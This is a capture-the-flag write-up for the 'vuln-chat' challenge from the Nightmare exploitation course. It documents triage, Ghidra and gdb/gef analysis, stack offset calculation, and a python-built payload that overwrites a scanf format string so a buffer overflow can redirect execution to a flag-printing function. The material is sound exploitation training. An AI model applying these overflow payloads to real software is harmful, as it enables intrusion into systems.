


# Vuln-Chat writeup

## Triage

```sh
noobuntu@noobuntu-VirtualBox:~/nightmare/bof/ret_func/vulnchat$ readelf -h vuln-chat
ELF Header:
  Magic:   7f 45 4c 46 01 01 01 00 00 00 00 00 00 00 00 00
  Class:                             ELF32
  Data:                              2's complement, little endian
  Version:                           1 (current)
  OS/ABI:                            UNIX - System V
  ABI Version:                       0
  Type:                              EXEC (Executable file)
  Machine:                           Intel 80386
  Version:                           0x1
  Entry point address:               0x8048470
  Start of program headers:          52 (bytes into file)
  Start of section headers:          4892 (bytes into file)
  Flags:                             0x0
  Size of this header:               52 (bytes)
  Size of program headers:           32 (bytes)
  Number of program headers:         8
  Size of section headers:           40 (bytes)
  Number of section headers:         30
  Section header string table index: 27
noobuntu@noobuntu-VirtualBox:~/nightmare/bof/ret_func/vulnchat$ checksec vuln-chat
[*] '/home/noobuntu/nightmare/bof/ret_func/vulnchat/vuln-chat'
    Arch:     i386-32-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

- Now, run it and play around:

```sh
noobuntu@noobuntu-VirtualBox:~/nightmare/bof/ret_func/vulnchat$ ./vuln-chat
----------- Welcome to vuln-chat -------------
Enter your username: ans
Welcome ans!
Connecting to 'djinn'
--- 'djinn' has joined your chat ---
djinn: I have the information. But how do I know I can trust you?
ans: You can.
djinn: Sorry. That's not good enough
noobuntu@noobuntu-VirtualBox:~/nightmare/bof/ret_func/vulnchat$ ./vuln-chat
----------- Welcome to vuln-chat -------------
Enter your username: djinn
Welcome djinn!
Connecting to 'djinn'
--- 'djinn' has joined your chat ---
djinn: I have the information. But how do I know I can trust you?
djinn: 123456789
djinn: Sorry. That's not good enough
```

- Let's `ltrace` this bad boy:

```sh
noobuntu@noobuntu-VirtualBox:~/nightmare/bof/ret_func/vulnchat$ ltrace ./vuln-chat >/dev/null
__libc_start_main(0x804858a, 1, 0xffc31994, 0x8048660 <unfinished ...>
setvbuf(0xf7a2ada0, 0, 2, 20)                                                                 = 0
puts("----------- Welcome to vuln-chat"...)                                                   = 47
printf("Enter your username: ")                                                               = 21
__isoc99_scanf(0xffc318d3, 0xffc318bf, 0xf78184be, 0xf7bad4a0admin
)                                = 1
printf("Welcome %s!\n", "admin")                                                              = 15
puts("Connecting to 'djinn'")                                                                 = 22
sleep(1)                                                                                      = 0
puts("--- 'djinn' has joined your chat"...)                                                   = 37
puts("djinn: I have the information. B"...)                                                   = 66
printf("%s: ", "admin")                                                                       = 7
__isoc99_scanf(0xffc318d3, 0xffc318ab, 0xf78184be, 0xf7bad4a012345678
)                                = 1
puts("djinn: Sorry. That's not good en"...)                                                   = 37
fflush(0xf7a2ada0)                                                                            = 0
+++ exited (status 0) +++
```

- No `gets` function this time, only `scanf`.
- Let's try `strings`:

```sh
noobuntu@noobuntu-VirtualBox:~/nightmare/bof/ret_func/vulnchat$ strings vuln-chat
-- snip --
stdout
system
sleep
setvbuf
__libc_start_main
__gmon_start__
GLIBC_2.7
GLIBC_2.0
PTRh
%30s
[^_]
/bin/cat ./flag.txt
Use it wisely
----------- Welcome to vuln-chat -------------
Enter your username:
Welcome %s!
Connecting to 'djinn'
--- 'djinn' has joined your chat ---
djinn: I have the information. But how do I know I can trust you?
%s:
djinn: Sorry. That's not good enough
-- snip --
```

- So it should `cat` the `flag.txt` once we give it a correct input.
- Note that function `scanf` first takes `format` then `pointer` argument that will point to the destination buffer.

## Static analysis

- This is `main` decompiled in ghidra:



- First it declares 2 buffers, one for the username second for the secret.
- Then it declares 2 variables, one for scanf format which is `%s`, and the other is simply set to 0 later on.
- You should note already, that both buffers are vulnerable to buffer overflow, because no bound checking is performed inside the `main`.
- So you can crash the program in both inputs:

```sh
noobuntu@noobuntu-VirtualBox:~/nightmare/bof/ret_func/vulnchat$ python3 -c 'print("\x41"*30)' | ./vuln-chat
----------- Welcome to vuln-chat -------------
Enter your username: Welcome AAAAAAAAAAAAAAAAAAAAAAAAAAAAAA!
Connecting to 'djinn'
--- 'djinn' has joined your chat ---
djinn: I have the information. But how do I know I can trust you?
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAA: djinn: Sorry. That's not good enough
Segmentation fault (core dumped)
noobuntu@noobuntu-VirtualBox:~/nightmare/bof/ret_func/vulnchat$ ./vuln-chat
----------- Welcome to vuln-chat -------------
Enter your username: a
Welcome a!
Connecting to 'djinn'
--- 'djinn' has joined your chat ---
djinn: I have the information. But how do I know I can trust you?
a: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
djinn: Sorry. That's not good enough
```

- Turns out that I'm wrong for the second buffer.
- Giving it something that is far beyond 20 bytes doesn't crash the program, but why?
    - That's because format string doesn't allow more than 30 characters to be specified at once.

- There's a second function which is named `printFlag`. And it does what it promises, it prints the flag.
- Considering all these facts, the task here is to change return address to execute `printFlag` function.
- But because only first buffer is vulnerable, I will attack it first.

## Dynamic analysis

- Let's start with gdb.
- Let's break after first `scanf` and get to know our stack layout.

```sh
gef➤  b *main+76
Breakpoint 1 at 0x80485d6
gef➤  r
Starting program: /home/noobuntu/nightmare/bof/ret_func/vulnchat/vuln-chat
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
----------- Welcome to vuln-chat -------------
Enter your username: AAAA

Breakpoint 1, 0x080485d6 in main ()
[ Legend: Modified register | Code | Heap | Stack | String ]
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── registers ────
$eax   : 0x1
$ebx   : 0xf7e2a000  →  0x00229dac
$ecx   : 0xf7da4380  →  0x00020002
$edx   : 0x0
$esp   : 0xffffcf40  →  0xffffcf73  →  "%30s"
$ebp   : 0xffffcf78  →  0xf7ffd020  →  0xf7ffda40  →  0x00000000
$esi   : 0xffffd034  →  0xffffd21f  →  "/home/noobuntu/nightmare/bof/ret_func/vulnchat/vul[...]"
$edi   : 0xf7ffcb80  →  0x00000000
$eip   : 0x080485d6  →  <main+004c> add esp, 0x8
$eflags: [zero carry PARITY adjust SIGN trap INTERRUPT direction overflow resume virtualx86 identification]
$cs: 0x23 $ss: 0x2b $ds: 0x2b $es: 0x2b $fs: 0x00 $gs: 0x63
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── stack ────
0xffffcf40│+0x0000: 0xffffcf73  →  "%30s"        ← $esp
0xffffcf44│+0x0004: 0xffffcf5f  →  "AAAA"
0xffffcf48│+0x0008: 0xf7c184be  →  "_dl_audit_preinit"
0xffffcf4c│+0x000c: 0xf7fbe4a0  →  0xf7c00000  →  0x464c457f
0xffffcf50│+0x0010: 0xffffcf90  →  0xf7e2a000  →  0x00229dac
0xffffcf54│+0x0014: 0xf7fbe66c  →  0xf7ffdba0  →  0xf7fbe780  →  0xf7ffda40  →  0x00000000
0xffffcf58│+0x0018: 0xf7fbeb10  →  0xf7c1acc6  →  "GLIBC_PRIVATE"
0xffffcf5c│+0x001c: 0x41000001
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── code:x86:32 ────
    0x80485cd <main+0043>      lea    eax, [ebp-0x5]
    0x80485d0 <main+0046>      push   eax
    0x80485d1 <main+0047>      call   0x8048460 <__isoc99_scanf@plt>
 →  0x80485d6 <main+004c>      add    esp, 0x8
    0x80485d9 <main+004f>      lea    eax, [ebp-0x19]
    0x80485dc <main+0052>      push   eax
    0x80485dd <main+0053>      push   0x8048759
    0x80485e2 <main+0058>      call   0x80483e0 <printf@plt>
    0x80485e7 <main+005d>      add    esp, 0x8
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "vuln-chat", stopped 0x80485d6 in main (), reason: BREAKPOINT
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0x80485d6 → main()
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
gef➤  x/s $ebp-0x5
0xffffcf73:     "%30s"
gef➤  x/s $ebp-0x19
0xffffcf5f:     "AAAA"
```

- You can see `ebp-0x19` is our `input_buffer_username`, the first buffer.
- `ebp-0x5` is `scanf_format`, which actually limits our input to 30 characters.
    - But that is well enough to overflow the buffer.
- Then you have second `scanf`:

```asm
   0x0804862c <+162>:   lea    eax,[ebp-0x2d]
   0x0804862f <+165>:   push   eax
   0x08048630 <+166>:   lea    eax,[ebp-0x5]
   0x08048633 <+169>:   push   eax
   0x08048634 <+170>:   call   0x8048460 <__isoc99_scanf@plt>
```

- And `ebp-0x2d` is `input_buffer`, the second buffer.
- Just to verify:

```sh
gef➤  x/s $ebp-0x2d
0xffffcf4b:     "lmao"
```

- Alright, let's now calculate how much padding we need to reach the return address on the stack.

```sh
gef➤  search-pattern LMAO
[+] Searching 'LMAO' in memory
[+] In '[heap]'(0x804a000-0x806c000), permission=rw-
  0x804a1a0 - 0x804a1a6  →   "LMAO\n"
[+] In '[stack]'(0xfffdd000-0xffffe000), permission=rw-
  0xffffcf5f - 0xffffcf63  →   "LMAO"
gef➤  i f
Stack level 0, frame at 0xffffcf80:
 eip = 0x80485d6 in main; saved eip = 0xf7c21519
 Arglist at 0xffffcf78, args:
 Locals at 0xffffcf78, Previous frame's sp is 0xffffcf80
 Saved registers:
  ebp at 0xffffcf78, eip at 0xffffcf7c
```

- `0xffffcf7c` - `0xffffcf5f` is 29.
- So padding of 29 characters to reach return instruction, but only 30 characters to enter (`scanf_format`).
- Giving it 30 A's you can see that I've managed to change the last byte of return address:

```sh
gef➤  x/wx $ebp
0xffffcf78:     0x41414141
gef➤  x/wx $ebp+0x4
0xffffcf7c:     0xf7c20041
```

- If I continue with the program, you can see that it crashes because `eip` points to `0x1`?

```sh
gef➤  c
Continuing.

Program received signal SIGSEGV, Segmentation fault.
0x00000001 in ?? ()
[ Legend: Modified register | Code | Heap | Stack | String ]
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── registers ────
$eax   : 0x0
$ebx   : 0xf7e2a000  →  0x00229dac
$ecx   : 0x6c0
$edx   : 0xf7fbf500  →  0xf7fbf500  →  [loop detected]
$esp   : 0xffffcf84  →  0xffffd034  →  0xffffd21f  →  "/home/noobuntu/nightmare/bof/ret_func/vulnchat/vul[...]"
$ebp   : 0x41414141 ("AAAA"?)
$esi   : 0xffffd034  →  0xffffd21f  →  "/home/noobuntu/nightmare/bof/ret_func/vulnchat/vul[...]"
$edi   : 0xf7ffcb80  →  0x00000000
$eip   : 0x1
$eflags: [ZERO carry PARITY adjust sign trap INTERRUPT direction overflow RESUME virtualx86 identification]
$cs: 0x23 $ss: 0x2b $ds: 0x2b $es: 0x2b $fs: 0x00 $gs: 0x63
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── stack ────
0xffffcf84│+0x0000: 0xffffd034  →  0xffffd21f  →  "/home/noobuntu/nightmare/bof/ret_func/vulnchat/vul[...]"      ← $esp
0xffffcf88│+0x0004: 0xffffd03c  →  0xffffd258  →  "SHELL=/bin/bash"
0xffffcf8c│+0x0008: 0xffffcfa0  →  0xf7e2a000  →  0x00229dac
0xffffcf90│+0x000c: 0xf7e2a000  →  0x00229dac
0xffffcf94│+0x0010: 0x0804858a  →  <main+0000> push ebp
0xffffcf98│+0x0014: 0x00000001
0xffffcf9c│+0x0018: 0xffffd034  →  0xffffd21f  →  "/home/noobuntu/nightmare/bof/ret_func/vulnchat/vul[...]"
0xffffcfa0│+0x001c: 0xf7e2a000  →  0x00229dac
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── code:x86:32 ────
[!] Cannot disassemble from $PC
[!] Cannot access memory at address 0x1
```

- If you try to supply more than 30 characters for __first buffer__, it just gets cut out and the `eip` stays the same at the end of the program.
- Even though `0xf7c20041` is actually a memory address that holds some instruction

```asm
 → 0xf7c20041                  nop    ebx
   0xf7c20044                  push   0x10
   0xf7c20049                  jmp    0xf7c20000
   0xf7c2004e                  xchg   ax, ax
   0xf7c20050                  endbr32
   0xf7c20054                  push   0x18
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "vuln-chat", stopped 0xf7c20041 in ?? (), reason: SINGLE STEP
```

- This is the reason `pc` gets set to `0x1` somewhere among these unknown instructions.

## Idea #1

- I think, both buffers must hold 30 characters, first one barely reaches the return address.
- Second one could potentially reach more.
- So I have to overflow both buffers.
- __However supplying 30 characters in first buffer, doesn't even let me enter input for the second buffer.__

## Idea #2

- Let's try overflowing the second buffer in gdb and see what happens.

```sh
gef➤  c
Continuing.
Welcome abcd!
Connecting to 'djinn'
--- 'djinn' has joined your chat ---
djinn: I have the information. But how do I know I can trust you?
abcd: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

Breakpoint 2, 0x08048639 in main ()
[ Legend: Modified register | Code | Heap | Stack | String ]
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── registers ────
$eax   : 0x1
$ebx   : 0xf7e2a000  →  0x00229dac
$ecx   : 0x0
$edx   : 0x0
$esp   : 0xffffcf40  →  0xffffcf73  →  "%30s"
$ebp   : 0xffffcf78  →  0xf7ffd020  →  0xf7ffda40  →  0x00000000
$esi   : 0xffffd034  →  0xffffd21f  →  "/home/noobuntu/nightmare/bof/ret_func/vulnchat/vul[...]"
$edi   : 0xf7ffcb80  →  0x00000000
$eip   : 0x08048639  →  <main+00af> add esp, 0x8
$eflags: [zero carry PARITY adjust SIGN trap INTERRUPT direction overflow resume virtualx86 identification]
$cs: 0x23 $ss: 0x2b $ds: 0x2b $es: 0x2b $fs: 0x00 $gs: 0x63
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── stack ────
0xffffcf40│+0x0000: 0xffffcf73  →  "%30s"        ← $esp
0xffffcf44│+0x0004: 0xffffcf4b  →  "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"
0xffffcf48│+0x0008: 0x41c184be
0xffffcf4c│+0x000c: "AAAAAAAAAAAAAAAAAAAAAAAAAAAAA"
0xffffcf50│+0x0010: "AAAAAAAAAAAAAAAAAAAAAAAAA"
0xffffcf54│+0x0014: "AAAAAAAAAAAAAAAAAAAAA"
0xffffcf58│+0x0018: "AAAAAAAAAAAAAAAAA"
0xffffcf5c│+0x001c: "AAAAAAAAAAAAA"
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── code:x86:32 ────
    0x8048630 <main+00a6>      lea    eax, [ebp-0x5]
    0x8048633 <main+00a9>      push   eax
    0x8048634 <main+00aa>      call   0x8048460 <__isoc99_scanf@plt>
 →  0x8048639 <main+00af>      add    esp, 0x8
    0x804863c <main+00b2>      push   0x80487ec
    0x8048641 <main+00b7>      call   0x8048410 <puts@plt>
    0x8048646 <main+00bc>      add    esp, 0x4
    0x8048649 <main+00bf>      mov    eax, ds:0x8049a60
    0x804864e <main+00c4>      push   eax
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "vuln-chat", stopped 0x8048639 in main (), reason: BREAKPOINT
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
[#0] 0x8048639 → main()
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
gef➤  x/wx $ebp+0x4
0xffffcf7c:     0xf7c21519
```

- However, this doesn't even come close to the return address.
- It doesn't even crash the program regardless of how large input I give it.
    - For both buffers I can specify 30 characters at max.

## Idea #3

- Let's try overflowing `scanf_format` from the first buffer, so that we can extend our input to more characters.
- This way we can overwrite the return address.
- Supplying 24 A's and you can overwrite the `scanf_format` variable:

```sh
gef➤  x/wx $ebp-0x5
0xffffcf73:     0x41414141
gef➤  x/wx $ebp
0xffffcf78:     0xf7ffd020
```

- So to reach `scanf_format` it takes 20 bytes, next 4 bytes __will be our defined format specifier.__
- I've generated my input as:

```sh
noobuntu@noobuntu-VirtualBox:~/nightmare/bof$ python3 -c 'import sys; sys.stdout.buffer.write(b"\x41" * 20 + b"\x73\x30\x39\x25")' > input.txt
```

- The only way to verify if this worked is to try to `scanf` more than 30 characters (I've set it to 90 characters, which should be enough).
- Nope, this doesn't work as expected.

```sh
gef➤  x/s $ebp-0x5
0xffffcf73:     "%90sAAAAAA"
gef➤  x/s $ebp+0x4
0xffffcf7c:     "A"
gef➤  x/wx $ebp+0x4
0xffffcf7c:     0xf7c20041
```

- It still changes only the last byte of the return address.
- ~~However I've just noticed something in ghidra that could be used.~~
- It's format specifier but that's not limited by any number of characters:



- This doesn't work, the only way is to directly specify format string `%s` as hex characters.
- I've managed to write `exp.py` to automate exploting this challenge.

#### Sources

1. https://github.com/hoppersroppers/nightmare/tree/master/modules/04-Overflows/05-bof_callfunction/tu17_vulnchat
